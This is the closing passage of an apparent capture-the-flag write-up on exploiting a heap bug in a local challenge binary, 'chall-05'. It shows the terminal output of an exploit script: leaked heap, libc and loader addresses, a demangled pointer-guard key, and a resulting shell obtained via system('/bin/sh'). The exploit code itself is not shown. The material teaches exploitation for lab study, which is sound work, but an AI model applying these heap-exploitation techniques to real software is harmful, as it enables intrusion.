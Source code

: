 We see that we called `system("/bin/sh")`, which we see the shell in use here:

```
$ python3 working.py
[+] Starting local process './chall-05': pid 9967
[*] running in new terminal: ['/usr/bin/gdb', '-q', './chall-05', '9967']
[+] Waiting for debugger: Done

Heap Base: 0x5576ca3a5000
Libc Base: 0x7f5474c00000

ld base: 0x7f5474e78000
_dl_fini address: 0x7f5474e7bd30
Initial Address: 0x7f5474e2e1a0
Tcache Chunk: 0x5576ca3a6f90
Mangled Next: 0x7f51238e4206


dl_fini: 0x7f5474e7bd30
mangled_ins_ptr: 0x794df9a72bd87d5b
Key is: 0x3eadc3f2883428dc
[*] Switching to interactive mode

$ w
 21:15:15 up  8:37,  1 user,  load average: 0.39, 0.35, 0.28
USER  TTY   FROM          LOGIN@   IDLE   JCPU   PCPU WHAT
guy   :1    :1            12:37   ?xdm?  14:31   0.00s /usr/libexec/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu /usr/bin/gnome-session --session=ubuntu
$ ls
chall-05  chall-05.c  chall-05.h  solution.md  working.py
```

Just like that, we got code execution!
